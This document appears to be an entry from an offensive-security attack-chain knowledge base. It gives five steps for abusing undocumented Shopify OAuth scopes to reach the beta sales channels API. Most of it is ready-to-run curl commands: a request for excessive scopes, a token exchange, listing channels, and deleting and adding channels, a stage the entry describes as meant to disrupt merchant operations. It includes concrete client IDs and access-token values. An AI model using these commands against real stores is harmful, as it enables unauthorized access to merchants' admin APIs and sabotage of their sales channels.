

---
tags:
  - shopify
  - oauth
  - api-bypass
  - access-control
  - sales-channels
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Request-Undocumented-Shopify-OAuth-Scopes]]'
  - '[[procedures/Obtain-Shopify-Access-Token]]'
  - '[[procedures/List-Shopify-Sales-Channels]]'
  - '[[procedures/Delete-Shopify-Sales-Channel]]'
  - '[[procedures/Add-Shopify-Sales-Channel]]'
step_count: 5
techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:32:01.774Z'
description: >-
  Multi-stage attack exploiting undocumented scopes in Shopify OAuth to gain
  unauthorized access to the beta channels API, allowing manipulation of sales
  channels.
skill_level: intermediate
impact_level: high
id: 0f164213-9bad-4d35-a637-8ee8dfbedc2e
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
---
# Shopify Channels API Access Bypass via Undocumented OAuth Scopes

Multi-stage attack chain demonstrating unauthorized access and manipulation of Shopify's beta sales channels API through abuse of undocumented OAuth scopes, potentially disrupting merchant operations.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Shopify merchant store
- Access to install a malicious app
- Network access to Shopify API endpoints

### Initial Access Requirements

- App client ID from a Shopify app
- Target shop domain (e.g., example.myshopify.com)
- No special permissions required initially

## Detailed Attack Procedures

### Step 1: Request Undocumented Scopes
procedure: [[procedures/Request-Undocumented-Shopify-OAuth-Scopes]]

**Objective**: Initiate OAuth flow requesting excessive, undocumented scopes including read_channels and write_channels to bypass access controls.

**Instructions**: Use the [[commands/shopify-oauth-authorize-with-channels-scopes]] command to request authorization:

```bash
curl "https://example.myshopify.com/admin/oauth/authorize?client_id=fc49e813f5aad9c8d8f65117031a9684&scope=read_apps,write_apps,write_content,read_content,write_customers,read_customers,read_disputes,write_fulfillments,read_fulfillments,write_gift_cards,read_gift_cards,write_orders,read_orders,read_products,write_products,read_script_tags,write_script_tags,write_scripts,read_scripts,read_shipping,write_shipping,write_social_network_accounts,read_social_network_accounts,read_themes,write_themes,read_channels,write_channels&redirect_uri=http://example.myshopify.com/&state=123&shop=example"
```

**Expected Output**: Redirect to callback URI with authorization code in query parameters.

**Success Indicators**:
- Authorization code received
- No scope rejection error

### Step 2: Obtain Access Token
procedure: [[procedures/Obtain-Shopify-Access-Token]]

**Objective**: Exchange the authorization code for an access token that grants the excessive scopes.

**Instructions**: Use the obtained code to request the token via POST to /admin/oauth/access_token with the [[commands/shopify-oauth-authorize-with-channels-scopes]] context, but adapt for token exchange (standard OAuth step, using curl or similar).

```bash
curl -X POST "https://example.myshopify.com/admin/oauth/access_token" -d "client_id=fc49e813f5aad9c8d8f65117031a9684&client_secret=SECRET&code=AUTH_CODE"
```

**Expected Output**: JSON response with access_token value.

**Success Indicators**:
- Access token issued with channels scopes
- Token valid for API calls

### Step 3: List Sales Channels
procedure: [[procedures/List-Shopify-Sales-Channels]]

**Objective**: Enumerate all sales channels using the unauthorized token to identify targets for manipulation.

**Instructions**: Send GET request with the access token using [[commands/shopify-get-channels-list]]:

```bash
curl -H "X-Shopify-Access-Token: 77a01fc64f65fd16b0b38bc31694e4ce" "https://example.myshopify.com/admin/channels.json"
```

**Expected Output**: JSON array of channels with IDs and details.

**Success Indicators**:
- List of channels returned without permission error
- Channel IDs visible for further actions

### Step 4: Delete Sales Channel
procedure: [[procedures/Delete-Shopify-Sales-Channel]]

**Objective**: Remove a sales channel to disrupt merchant operations.

**Instructions**: Target a specific channel ID with DELETE using [[commands/shopify-delete-channel]]:

```bash
curl -X DELETE -H "X-Shopify-Access-Token: 77a01fc64f65fd16b0b38bc31694e4ce" "https://example.myshopify.com/admin/channels/CHANNEL_ID.json"
```

**Expected Output**: 200 OK response confirming deletion.

**Success Indicators**:
- Channel no longer listed in subsequent GET
- No authorization denied error

### Step 5: Add Sales Channel
procedure: [[procedures/Add-Shopify-Sales-Channel]]

**Objective**: Create a new unauthorized sales channel to alter merchant configurations.

**Instructions**: POST a new channel with provider ID using [[commands/shopify-add-channel]]:

```bash
curl -X POST -H "X-Shopify-Access-Token: 77a01fc64f65fd16b0b38bc31694e4ce" "https://example.myshopify.com/admin/channels.json" -d "channel[provider_id]=12"
```

**Expected Output**: JSON response with new channel details.

**Success Indicators**:
- New channel appears in list
- Successful creation without permissions check

## Attack Chain Summary

### Key Achievements

1. Bypassed access controls on beta API via scope abuse
2. Enumerated and manipulated sales channels
3. Demonstrated potential for operational disruption

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
